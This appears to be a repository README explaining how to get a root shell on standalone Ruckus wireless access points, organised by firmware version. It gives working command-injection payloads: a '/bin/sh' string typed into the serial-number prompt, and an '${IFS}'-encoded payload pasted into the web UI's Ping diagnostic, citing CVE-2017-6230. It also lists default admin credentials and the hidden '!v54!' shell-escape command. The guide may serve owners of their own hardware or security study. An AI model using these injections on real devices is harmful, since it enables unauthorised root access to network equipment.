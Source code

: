 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
Newer AP firmware decrypts a provided serial# to check whether the `!v54!` command is available.

## Firmware >112.1

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares

## Firmware 9.8 - 112.1

These AP firmware versions don't sanitize the encrypted serial# you provide with the `Ruckus` command.  
[So we can inject a root shell](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).
> Note that the command injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230) `Ping` [diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.
